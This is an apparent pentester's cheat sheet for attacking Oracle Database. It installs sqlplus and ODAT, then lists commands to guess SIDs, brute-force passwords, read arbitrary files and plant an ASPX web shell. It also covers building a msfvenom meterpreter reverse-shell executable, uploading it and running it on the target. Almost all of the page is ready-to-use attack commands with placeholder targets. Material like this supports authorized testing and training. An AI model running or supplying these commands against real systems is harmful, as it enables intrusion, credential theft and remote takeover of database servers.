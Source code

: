 ```yaml
---
title: "Oracle Database"
date: 2024-7-5
tags: ["oracle", "database", "1521", "sqlplus", "odat", "revshell", "rce"]
---
```


### Tools

{{< tab set1 tab1 active >}}sqlplus{{< /tab >}}
{{< tab set1 tab2 >}}ODAT{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Install
sudo apt install oracle-instantclient-sqlplus
```

```console
# export LD_LIBRARY_PATH
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Check
sqlplus -V
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
# Install
sudo apt install odat
```

```console
# Check
odat --version
```

</div>

<small>*Ref: [Download ODAT](https://github.com/quentinhardy/odat)*</small>

{{< /tabcontent >}}

<br>

---

### Enum

<div>

```console
# SID enum (You only need one)
odat sidguesser -s <TARGET>
```

```console
# User/Password brute force
odat passwordguesser -s <TARGET> -d <SID> --accounts-file accounts.txt
```

```console
# Run all checks with creds as sysdba
odat all -s <TARGET> -U <USER> -P '<PASSWORD>' -d <SID> --sysdba
```

</div>

### General

<div>

```console
# Export everytime or add to ~/.zshrc
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Connect
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>'
```

```console
# Connect as sysdba (sudo)
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>' as sysdba
```

```console
# Check privilege
select * from user_role_privs;
```

</div>

<br>

---
#### Arbitrary Read

<div>

```console
odat ctxsys -s <TARGET> -U <USER> -P '<PASSWORD>' -d <SID> --sysdba --getFile c:\\users\\administrator\\desktop\\file.txt
```

</div>

#### Upload File to RCE

<div>

```console
odat dbmsadvisor -s <TARGET> -U <USER> -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

</div>

#### Execute binary to RCE

<div>

```console
# Create a malicious exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

```console
# Upload
odat utlfile -s <TARGET> -U <USER> -P '<PASSWORD>' -d <SID> --sysdba --putFile \\Temp revshell.exe revshell.exe
```

```console
# Execute
odat externaltable -s <TARGET> -U <USER> -P '<PASSWORD>' -d <SID> --sysdba --exec \\Temp revshell.exe
```

</div>

<br>